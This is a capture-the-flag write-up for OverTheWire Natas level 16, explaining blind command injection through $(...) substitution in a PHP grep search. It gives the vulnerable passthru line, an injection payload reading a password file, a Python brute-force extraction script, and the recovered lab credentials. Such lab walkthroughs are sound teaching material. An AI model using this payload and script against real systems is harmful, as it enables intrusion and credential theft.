

# Natas Level 16 → Level 17

### Challenge

**URL: http://natas16.natas.labs.overthewire.org/**

This level features a search tool that uses the `grep` command to find words in a dictionary. While it filters common command injection characters like `;`, `&`, and `|`, it fails to filter the `$` and `()` characters. This allows for **Blind Command Injection** via **Command Substitution**. The vulnerable line of code is: `passthru("grep -i \"$key\" dictionary.txt");`

---

### Walkthrough

1. The application executes a shell command. Since we can use `$(...)`, we can nest a command inside the `grep` search. Because the output of our nested command is treated as a search pattern for the dictionary, we don't see its output directly. This is a **Blind** attack.
2. We can leak the password character by character by observing if the dictionary search returns any results.
   - **Payload structure:** `$(grep ^[char] /etc/natas_webpass/natas17)African`
   - If the password starts with the character we guessed, the `grep` inside the `$(...)` returns that string. The total command then searches the dictionary for `[password]African`. Since this won't be found, the output will be **empty**.
   - If the character is wrong, the `$(...)` returns nothing. The command searches for `African`. Since "African" exists in the dictionary, the output will **not be empty**.

3. **Automation Script:** Manually testing every character would be exhausting. We use a Python script to automate the "Boolean" check (Empty output vs. Non-empty output).

   ```
   import requests
   from string import ascii_letters, digits

   target = "http://natas16.natas.labs.overthewire.org/"
   auth = ("natas16", "hPkjKYviLQctEW33QmuXL6eDVfMW4sGo") # Replace with current password
   chars = ascii_letters + digits
   password = ""

   print("Extracting password...")

   for i in range(32):
       for char in chars:
           payload = f'$(grep ^{password + char} /etc/natas_webpass/natas17)African'
           r = requests.get(target, auth=auth, params={"needle": payload})

           if "African" not in r.text:
               password += char
               print(f"Progress: {password}")
               break

   print(f"Final Password: {password}")
   ```

4. **Execution:**
   - Run the script. It will test `a`, `b`, `c`... as the first character.
   - When the word "African" disappears from the response, the script knows it found a correct character.
   - After 32 successful matches, the full password for `natas17` is revealed.
     

---

### Credentials Found

- **Username:** `natas17`
- **Password:** `EqjHJbo7LFNb8vwhHb9s75hokh5TF0OC`
